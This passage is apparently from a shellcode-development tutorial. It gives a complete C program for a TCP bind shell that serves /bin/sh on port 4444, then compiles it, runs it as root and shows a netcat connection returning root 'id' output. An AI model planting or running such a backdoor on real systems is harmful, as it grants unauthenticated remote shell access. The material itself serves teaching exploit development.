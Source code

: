 ## Creating a TCP Bind Shell in C
This is our C program to create a TCP Bind Shell.  

```c
// Filename: basicBindShell.c
// Author:   boku
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h> /* superset of previous */
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in ipSocketAddr = {
    .sin_family = AF_INET,
    .sin_port = htons(4444),
    .sin_addr.s_addr = htonl(INADDR_ANY)
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/sh", NULL, NULL);
}
```

Great, before we dive into how this was created, lets test it to make sure it works.

### Compiling C Bind Shell
```console
root# gcc basicBindShell.c -o basicBindShell
```

### Testing Our Shellcode in the Host Program
#### Terminal Window 1
```console
root# ./basicBindShell
```
#### Terminal Window 2
```console
root# netstat -tanlp | grep basicBind
tcp   0   0 0.0.0.0:4444    0.0.0.0:*   LISTEN    31804/basicBindShell
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Awesome! It works. Lets dive into these C functions and how they work.
